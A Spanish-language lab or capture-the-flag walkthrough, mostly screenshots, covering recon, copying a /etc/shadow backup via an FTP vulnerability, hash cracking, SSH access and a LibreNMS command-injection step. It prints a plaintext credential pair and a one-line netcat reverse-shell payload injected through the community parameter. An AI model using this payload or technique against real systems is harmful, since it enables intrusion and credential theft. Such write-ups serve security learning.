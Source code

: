 ____________
Tags: 
____________

# RECONOCIMIENTO

**nmap

![[Pasted image 20250507120731.png]]

![[Pasted image 20250507120928.png]]
________
**Puerto 21

![[Pasted image 20250507121159.png]]

vemos que la versión 1.3.5 tiene una vulnerabilidades como remote command execution y copia de archivos
_____________
**Puerto 80

![[Pasted image 20250507122750.png]]

*FUZZING

![[Pasted image 20250507122910.png]]

![[Pasted image 20250507123457.png]]

por mucho que fuzzeemos no vamos a encontrar nada
_____

**Servicio Samba

![[Pasted image 20250507123650.png]]

![[Pasted image 20250507124556.png]]

![[Pasted image 20250507134357.png]]

en el documento **log.txt** que hemos descargado de el servicio samba encontramos lo siguiente

**backup** del /etc/shadow que igual podemos copiar con la vulnerabilidad del puerto ftp

![[Pasted image 20250507134834.png]]

tambien podemos ver cual es el path del directorio compartido con samba ***/home/aeolus/share**

![[Pasted image 20250507135105.png]]

# EXPLOTACION

podemos intentar copiar el backup de /etc/shadow a el directorio compartido con samba

![[Pasted image 20250507140009.png]]

parece que se ha copiado en el directorio compartido, ahora descargamos otra vez el contenido de este directorio

![[Pasted image 20250507140229.png]]

![[Pasted image 20250507140301.png]]

contenido del **shadow.bak**

![[Pasted image 20250507140330.png]]

crackeo de los hashes con john the reeper


![[Pasted image 20250507140719.png]]


podemos intentar con estas credenciales logearnos por el servicio ssh 

![[Pasted image 20250507140835.png]]

se consiguio acceso por el servicio ssh

# ESCALADA DE PRIVILEGIOS

Hacemos el reconocimiento de la maquina básico

```bash
sudo -l
```

```bash
find / -perm -4000 2>/dev/null
```

```bash
getcap -r / 2>/dev/null
```

```bash
ss -tuln
```

![[Pasted image 20250508103131.png]]

lo unico interesante que encontramos es el puerto 8080 abierto asique vamos a ver que hay haciendo un remote port forwarding por ssh ya que tenemos acceso a la maquina por este

![[Pasted image 20250508103824.png]]

página web que corre por el puerto 8080

![[Pasted image 20250508104457.png]]

se puede obtener acceso con las credenciales *aeolus*::*sergioteamo*

buscamos en la base de datos de searchsploit a ver si hay vulnerabilidades en librenms y encontramos unas cuantas

![[Pasted image 20250508112649.png]]

probamos con la vulnerabilidad remote code execution 

analizando el script vemos que desde la pagina principal con la ruta /addhost podemos mandar un payload en el parametro community donde {0}{1} son rhost y rport

```payload
'$(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {0} {1} >/tmp/f) #
```

![[Pasted image 20250508113303.png]]

